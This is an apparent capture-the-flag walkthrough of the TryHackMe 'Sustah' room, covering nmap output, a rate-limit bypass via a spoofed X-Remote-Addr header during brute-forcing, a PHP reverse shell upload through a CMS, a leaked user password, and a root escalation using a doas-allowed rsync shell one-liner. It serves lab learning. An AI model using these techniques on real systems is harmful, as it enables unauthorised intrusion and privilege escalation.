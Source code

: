 # sustah
https://tryhackme.com/room/sustah

#### NMAP 

    PORT     STATE SERVICE VERSION
    22/tcp   open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.10 (Ubuntu Linux; protocol 2.0)
    | ssh-hostkey: 
    |   2048 bd:a4:a3:ae:66:68:1d:74:e1:c0:6a:eb:2b:9b:f3:33 (RSA)
    |   256 9a:db:73:79:0c:72:be:05:1a:86:73:dc:ac:6d:7a:ef (ECDSA)
    |_  256 64:8d:5c:79:de:e1:f7:3f:08:7c:eb:b7:b3:24:64:1f (ED25519)
    80/tcp   open  http    Apache httpd 2.4.18 ((Ubuntu))
    |_http-server-header: Apache/2.4.18 (Ubuntu)
    |_http-title: Susta
    8085/tcp open  http    Gunicorn 20.0.4
    |_http-server-header: gunicorn/20.0.4
    |_http-title: Spinner 
    Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

we have 3 open ports two HTTP/80 on 8085 webpage showsspinner whichs we have to input random num to get dir secret dir...

Give random number and intercept the request send to intruder

There is rate limit protection add this 
          
          X-Remote-Addr: 127.0.0.1 

header to bypass rate limit and set payload position in num=$213$ and set payload numbers from 10000 to 99999 step 1.

Start Attack

check length that when its change 1166 to 1636 and you got the thats path reaveled numbere.....

go to reveled path in 80/HTTP you got CMS....then login into cms using defalut user pass

then navigate to file upload functionality (http://target/codebase/dir.php?type=filenew) and upload a php reverse shell 

shell!!

www-data go to  /var/backups there is user password then sudo to user

kiran:trythispasswordforuserkiran

you got user.txt

## Privesc

run linuxpeas.sh 

[+] Checking doas.conf
 permit nopass kiran as root cmd rsync

we got this kiran can run rsync as root then search this cmd in GTFObins

got this 

    rsync -e 'sh -c "sh 0<&2 1>&2"' 127.0.0.1:/dev/null 		\\not works
    
    doas -u root rsync -e 'sh -c "sh 0<&2 1>&2"' 127.0.0.1:/dev/null 

KABOOOM!! root






